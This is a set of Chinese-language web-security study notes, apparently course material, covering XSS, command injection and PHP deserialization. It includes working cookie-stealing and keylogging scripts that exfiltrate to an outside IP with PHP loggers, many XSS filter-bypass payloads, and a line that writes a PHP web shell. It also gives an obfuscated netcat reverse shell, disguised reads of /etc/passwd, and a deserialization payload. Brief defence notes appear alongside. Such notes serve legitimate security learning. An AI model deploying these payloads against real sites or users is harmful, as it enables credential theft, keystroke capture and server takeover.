<script type="text/javascript" src="cookie.js"></script>    
<meta charset="utf-8">
<form action="#" method="post" id="form1">
    <input type="text" name="username" />
    <input type="password" name="password" />
    <input type="submit" name="submit" value="submit" />
</form>
</html>

//cookie.js文件，执行恶意操作(获取到cookie并通过指定url传递出去)
var img= document.createElement('img');
img.width= 0;
img.height= 0;
img.src='http://192.168.41.46/xss/cookie/cookie.php?cookie=' 
+ encodeURIComponent(document.cookie);

//cookie.php文件，接收cookie.js传递出的数据，并存储在txt文件中
<?php
$cookie = $_GET['cookie'];
$log = fopen('cookie.txt','a');
fwrite($log,$cookie.PHP_EOL);
fclose($log);
?>
```

#### (2)获取键盘记录

* 利用**ajax发送HTTP**请求

##### a. 发送请求

* 使用**open()和send()**方法

  

###### ①GET请求

```js
xmlhttp.open("GET","url地址",true);
xmlhttp.send();
```

###### ②POST请求

```js
xmlhttp.open("POST","url地址",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("fname=Henry&lname=Ford");

```

##### b. 接受请求

* 使用XMLHttpRequest对象的**ResponseText**和**ResponseXML**属性



###### ①onreadystatechange

* readystate有5个取值，分为6个阶段

  1. 取值对应

     | 取值 | 含义                     |
     | ---- | ------------------------ |
     | 0    | 请求未初始化             |
     | 1    | 服务器连接已建立         |
     | 2    | 请求已接收               |
     | 3    | 请求处理中               |
     | 4    | 请求已完成，且响应已就绪 |

  2. 阶段分类

     创建 -> 初始化请求 -> 发送请求  -> 接收数据  -> 解析数据  -> 完成

##### c. 实例

```php
//index.html网页模拟用户真实体验
<html>
    <head></head>
    <script type="text/javascript" src="log.js"></script>    
    <meta charset="utf-8">
    <body>
        <form action="#" method="post" id="form1">
            <label>输入用户名</label>
            <input type="text" name="username" />
            <br>
            <label>输入密码</label>
            <input type="text" name="password" />
            <br><br>
            <input type="submit" name="submit" value="submit" />
        </form>
    </body>
</html>

//log.js文件执行恶意操作(获取到用户数据并通过指定url传递出去)
document.onkeypress=function(evt){
    evt=evt?evt:window.event;
    key=String.fromCharCode(evt.keyCode?evt.keyCode:evt.charCode);
    if(key){
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST","http://192.168.41.46/xss/keyboard/log.php",true);
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}
//log.php文件，log.js传递出的数据，并存储在txt文件中
<?php
$key=$_POST['key'];
$logfile='result.txt';
$fp=fopen($logfile,"a");
fwrite($fp,$key);
fclose($fp);
?>
```

#### (3)获取前端源码

#### (4)获取内网IP

#### (5)组合其他漏洞getshell

#### (6)水坑/钓鱼攻击

#### (7)其他利用

# 第五天

## XSS

### 1. XSS与标签

#### (1). 运行位置

* 独立的``<script>``标签
* 某些标签内部

#### (2). 常用事件

| 事件名      | 含义                     |
| ----------- | ------------------------ |
| onclick     | 鼠标点击触发             |
| onmousemove | 当鼠标移动就触发         |
| onload      | 页面加载完成后触发       |
| onerror     | 页面加载错误时触发       |
| onblur      | 元素失去焦点时运行的脚本 |

##### a. onclick

* `<a>`、`<address>`、`<b>`、`<bdo>`、`<big>`、`<blockquote>`、`<body>`、`<button>`、`<caption>`、`<cite>`、`<code>`、`<dd>`、`<dfn>`、`<div>`、`<dl>`、`<dt>`、`<filedset>`、`<form>`、`<h1>`、`<hr>`、`<i>`、``、`<input>`、`<kbd>`、`<label>`等等

##### b. onload

* `<body>`、`<frame>`、`<frameset>`、`<iframe>`、``、`<link>`、`<script>`

##### c. onerror

* ``、`<object>`、`<style>`

##### d. 其他事件标签

* https://www.runoob.com/jsref/dom-obj-event.html

#### (3). JS伪协议

* 伪协议不同于网上真实存在的协议，而是为**关联应用程序而使用的**，例如tencent://(关联QQ)、**data:**(用base64编码在浏览器输出二进制文件)、**javascript:**

  ##### a. data://伪协议

  ```html
  1. 
  	<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
  
  2. 
  	<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
  
  3. 
  	<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
  
  4. 
  	<iframe src="data:text/html,%3Cscript%3Ealert(1)%3C%2Fscript%3E"></iframe>
  ```

  ##### b. javascript伪协议

  ```html
  <a href="javascript:alert('a')">1</a>
  </img>
  ```

#### (4). 标签内执行js

1. 闭合属性、闭合标签，无法闭合可能进行了htmlencode编码(htmlspecialchars函数)
2. 利用时间onload、onerror、onblur、onclick等
3. 特殊属性src/href/action
4. javascript伪协议

### 2. XSS构造

#### (1).利用<>构造标签

* **没有任何过滤**机制时使用

#### (2).伪协议

* 使用**javascript:**等伪协议构造XSS

* 支持的标签：**src**、**href**、background等

  ```html
  <a href="javascript:alert(/xss/)">touch me!</a>
  </img>		//仅在IE6下成功
  ```

#### (3).事件利用

* 可以利用html中某些**动作时间**，绑定**恶意脚本**

* 常见事件类型

  | window事件   | 对window对象触发的事件         |
  | ------------ | ------------------------------ |
  | Form事件     | HTML表单内的动作触发事件       |
  | Keyboard事件 | 键盘按键                       |
  | Mouse事件    | 由鼠标或类似用户动作触发的事件 |
  | Media事件    | 由多媒体触发的事件             |

  ```html
  
  <input type="text" onkeydown="alert(/xss/)" />
  <input type="text" onkeyup="alert(/xss/)" />
  <input type="button" onclick="alert(/xss/)" />
  
  ```

#### (4).利用CSS触发(已过时)

#### (5)其他标签及手法

* 随着前端语言的更新速度，会有**新的标签和事件**出现

  ```html
  <svg onload="alert(/xss/)" >	//svg是h5语言中的标签
  <input onfocus=alert(/xss/) autofocus >	//自动触发
  ```

### 3. XSS变形

#### (1)大小写转换

* 将payload进行大小写转化

  ```html
  
  <a hREf='JaVaScriPt:alert(/xss/)'>click me</a>
  ```

#### (2)引号的使用

* HTML对引号不敏感，但过滤函数对引号严格

  ```html
  
  
  
  ```

#### (3)左斜线代替空格

```html

```

#### (4)回车的使用

* 添加**水平制表符**和**回车符**来绕过关键字检测

```html
	
	<a href="javascript:alert(/xss/)">clike me</a> =>  
	<a href="j	a	v	a	s	c	r	i	p	t	:	alert(/xss/)">clike me</a>

<a href="j
         a
         v
         a
         s
         c
         r
         i
         p
         t
         :alert(/xss/)">clike me</a>
	<a href="javascript:alert(/xss/)">clike me</a>
```

* **一些函数不可以加回车**(onmoveover、onerror等)

#### (5)双写绕过

* 针对只做了**一次过滤**的情况

* ```html
  <script>alert(1)</script>	=>  <scr<script>ipt>alert(1)</scr</script>ipt>
  
  ```

#### (6)CSS中的变形


```html
a.使用全角字符
    "><"
b.注释会被浏览器忽略
    "><"
c. 样式表中的[\]和[\0]
    "><style>@import 'javasc\ri\0pt:alert*(/xss/)';</style><"
```

#### (7)对标签属性值进行转码

* 对标签值使用**十进制**或**十六进制**表示

  ```html
  1. 转码
      "><a href="javascript:alert(/xss/)">click me</a><" => 
      "><a href="j&#97;v&#x61;script:alert(/xss/)">click me</a><"
      "><a href="&#1;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">click me</a><"
  2. 进阶变形
       "></img><" => 
       "></img><"	
          or
      "></img><"
  ```

  | 符号            | ASCII码 | 十进制   | 十六进制 |
  | --------------- | ------- | -------- | -------- |
  | a               | 97      | `&#97;`  | `&#61;`  |
  | e               | 101     | `&#101;` | `&#x65;` |
  | Tab(水平制表符) | 9       | `&#9;`   |          |
  | 换行            | 10      | `&#10;`  |          |
  | 回车            | 13      | `&#13;`  |          |
  | SOH             | 1       | `&#1;`   |          |
  | STX             | 2       | `&#2;`   |          |

#### (8)拆分跨站

* 当应用程序**没有过滤**关键字符，却对**输入字符长度有限制**时，可以使用**拆分法**

  ```html
  <script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script>
  ```

#### (9)HTML编码

##### a. 十进制

* 标识符：``&# + Ascii码``

  ```html
  <a href="javascript:alert(/xss/)">click me</a>	=> 
  1. 
  	<a href="j&#97;v&#97;script:alert(/xss/)">click me</a>
  2.
  	 
      <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
          or
      
      
  ```

##### b. 十六进制

* 标识符：``&#x``

  ```html
  <a href="javascript:alert(/xss/)">click me</a>	=> 
  1. 
  	<a href="j&#x61;v&#x61;script:alert(/xss/)">click me</a>
  2. 
  	
  		or
  	<script>eval("\x61\x6c\x65\x72\x74\x28\x31\x29")</script>
  ```

##### c. 其他编码

###### 	①Unicode编码

```html

<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

###### 	②jsfuck混淆

* 将js代码转换成混淆之后的格式
* 在线转换网站http://www.jsfuck.com/

# 第六天

## 命令执行漏洞

### 1. 概述

#### (1). 概念

* 代码层**过滤不严**；应用程序直接或间接使用了**动态执行命令的危险函数**，并且这个函数的运行**参数是可控**的

#### (2). 危害及防御

##### a. 危害

1. 继承Web服务器**程序权限**(**Web用户权限**)，去**执行系统命令**
2. 继承Web服务器权限，读写文件
3. **反弹Shell**
4. 控制整个网站
5. 控制整个服务器

##### b. 防御

1. 尽量**少使用执行命令函数**或者**禁用disable_functions**
2. 在进入执行命令的函数之前，对**参数进行过滤**，对**敏感字符进行转义**
3. 参数值尽量使用**引号包括**，并在拼接前调用**addslashes进行转义**

#### (3). 涉及函数

```php
<?php
//1. system，自带输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    system($cmd);
    echo '<br><br>';
}
//2. exec，无输出，且仅输出最后一行
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print exec($cmd);
    echo '<br><br>';
}
//3.shell_exec，无回显
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    echo shell_exec($cmd);
    echo '<br><br>';
}
//4. passthru，直接将结果输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
     passthru($cmd);
     echo '<br><br>';
}
//5. popen，返回一个文件指针
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'].">>1.txt";
     popen($cmd,'r');
     echo '<br><br>';
}
//6. 反引号，原理是调用的shell_exec函数
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print `$cmd`;
    echo '<br><br>';
}
?>
```

#### (3). 多命令执行语法

##### a. windows

| 命令格式                 | 含义                                           |
| ------------------------ | ---------------------------------------------- |
| command1**&**command2    | 先后执行，无论command1是否成功                 |
| command1**&&**command2   | 先后执行，command1成功，才执行command2         |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2         |
| command1**\|**command2   | \|是管道符，将command1的执行结果传递给command2 |

##### b. Linux

| 命令格式                 | 含义                                       |
| ------------------------ | ------------------------------------------ |
| command1**;**command2    | 先后执行，无论command1是否成功             |
| command1**&&** command2  | 先后执行，command1成功，才执行command2     |
| command1**&**command2    | 先执行command1并放置后台，在执行command2   |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2     |
| command1**\|**command2   | 管道符，将command1的执行结果传递给command2 |

```php
127.0.0.1;echo '<?php @eval($_REQUEST['cmd']); ?>' > shell3.php	√
127.0.0.1;echo "<?php @eval($_REQUEST['cmd']); ?>" > shell3.php	×
127.0.0.1;echo "<?php eval(\$_POST["cmd"]); ?>" > shell3.php	√  
```

### 2. Linux变形

####  (1)bash通配符

| 通配符 | 通配符解释                      | 案例                          | 案例解释                       |
| ------ | ------------------------------- | ----------------------------- | ------------------------------ |
| *      | 代表**0到无穷多个**任意字符     | /bin/cat /etc/*wd             | 查看/etc文目录下以wd结尾的文件 |
| ?      | 代表一定有1个任意字符           | /b?n/cat /etc/pass?d          | 查看/etc文目录下符合要求的文件 |
| []     | 代表**一定有1个在括号内**的字符 | /bin/cat /etc/[pwe]ass[aswd]d |                                |
| -      | 代表**在编码顺序内的所有**字符  | [0-9]                         | 0到9之间的所有数字             |
| ^      | 代表**反向选择**                | [^abc]                        | 一定没有一个括号内的字符       |

#### (2)IP转数字，数字转IP

```bash
192.168.12.151 =>  3232238743
反弹shell的使用： 	/???/nc -e /???/b??h 3232238743 1234
```

#### (3)连接符

```bash
#原型：/bincat /etc/passwd
1. 单引号： ''包裹
	/b'i'n/c'a't /e't'c/'p'a's's'w'd
2. 双引号
	c"a"t /"e"t"c"/"p"a"s"s"w"d
3. 反斜杠
	c\a\t /e\t\c/p\a\s\s\w\d
```

#### (4)未初始化的变量

* **未初始化**的变量，直接使用时，变量值为**null**

```bash
echo $a $b $c
#执行whoami的变形
a=w;b=hoa;c=mi;$a$b$c
```

#### (5)反引号执行

* 在Linux下，反引号中间的字符能够被当做命令执行

```bash
#执行whoami命令：
`whoami`
who`sadasdasdfasfas`am`safqwafasfa`i
```

#### (6)其他符号

* **大括号**、**重定向**符号绕过**空格**的过滤

```bash
1. 大括号
    #执行的 cat /etc/passwd命令：
    {cat,/etc/passwd}

    #执行ls -la指令：
    {ls,la}
2. 重定向
	#小于号是输入重定向，就是把后面跟的文件取代键盘作为新的输入设备，大于号是输出重定向
	a. 执行ls
		l<>s
```

#### (7)base64编码

1. 首先echo [命令] | base64

   ```bash
   echo whoami | base64 
   ```

2. 将命令以base64编码的形式表示出来

   ```bash
   echo [编码之后的命令] | base64 -d		#-d指令表示进行解码
   ```

3. 使用反引号执行该字符串

   ```bash
   `echo [编码之后的命令] | base64 -d`
   ```

#### (8)默认字符命令

* echo **${#PATH}** 可以**截取**字符串

  ```bash
  echo ${#PATH5:1}
  	l
  echo ${#PATH5:1}echo ${#PATH2:1}
  	ls
  `echo ${#PATH5:1}${#PATH2:1}`
  	ls
  ${#PATH5:1}${#PATH2:1}
  	ls
  ```

### 3.Windows变形

#### (1)大小写混合

* **双引号**、**^**和**成对的圆括号** 并不会影响命令的执行

  ```cmd
  whoami	=>
  	w"h"o"a"m"i"
  	(((whoami)))
  	w^h^o^a^m^i		#不能是 ^^ ，2个^代表转义
  ```

#### (2)set命令和windows变量绕过

```cmd
set a=whoami
echo a		#输出：whoami
echo %a%	#输出：whoami命令执行结果

set z=ipc
set x=onfig
%z%%x%		#输出：ipconfig的执行结果
```

#### (3)字符串的切割

* %变量名:~x,y% ：变量从第x个元素开始提取，总共取y个字符

```cmd
#  %a%的输出为whoami
%a:~0%		#取出a的值中的所有字符
%a:~0,6%	#取出a的值，从第0个位置开始，取6个值
```

#### (4)逻辑运算符

* **管道符 |** ：可以连接命令，且**只执行后面的命令**

  ```cmd
  whoami | net user
  ```

* **双管道符||**：**只有**前面的命令**失败**，**才**执行后面的命令

  ```
  whoam || net user
  ```

* **&**：前面的命令**不影响**后面命令的执行

  ```
  whoami & net user
  ```

* **&&**：**前面的命令成功才**执行后面的命令

  ```
  whoami && net user
  ```

## 反序列化漏洞

### 1. 序列化概述

#### (1)序列化定义

* 序列化，是将对象的**状态信息**转换为**可以存储或传输的形式**的过程。在序列化期间，对象将其当前状态写入到临时或持久型存储区，以后，可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。简而言之，序列化就是把**一个对象变成可以传输的字符串**，可以以特定的格式**在进程之间跨平台、安全的进行通信**

#### (2)用途

* 方便对象在网络中的**传输和存储**

#### (3)过程

* 序列化：将**对象**转化为**流**，利于存储和传输的格式
* 反序列化：将**流**转化为**对象**

### 2. PHP反序列化漏洞

#### (1)概述

* PHP反序列化漏洞也叫**PHP对象注入**

#### (2)形成原因

* 程序没有对用户输入的反序列化字符串进行检测，导致反序列化过程可以被恶意控制

#### (3)危害

1. 代码、系统命令执行
2. getshell

#### (4)防御

1. **严格过滤用户输入**的unserialize函数的参数
2. 对unserialize后的**变量内容进行检查**，以确定内容没有被污染

#### (4)常见魔法函数

| 魔法函数       | 含义                                          |
| -------------- | --------------------------------------------- |
| __construrct() | 当**对象创建**时被调用                        |
| __destruct()   | 当**对象销毁**时被调用                        |
| __sleep()      | 在对象**被序列化**之前被调用                  |
| __weakup()     | 在**unserialize()**函数执行**反序列化时**调用 |
| __toString()   | 当**对象被当做字符串**时使用                  |

#### (5)实例

* 需配合**其他漏洞**使用，例如代码执行、命令执行等

```php
//代码
<?php
class Test{			//创建一个类
	public $str='ichunqiu';
	function __destruct(){	//通过反序列化，调用A对象，因为PHP魔法函数的原因，会自动执行__destruct()
		@system($this->str);
	}
}
$test = new Test();		
//echo serialize($test);
echo "<pre>";
unserialize($_GET['code']);		//反序列化，将得到的序列化字符串反序列化为对象
?>
    
//payload
    ?code=O:4:"Test":1:{s:3:"str";s:8:"ipconfig";}
	?code=O:4:"Test":1:{s:3:"str";s:6:"whoami";}
```

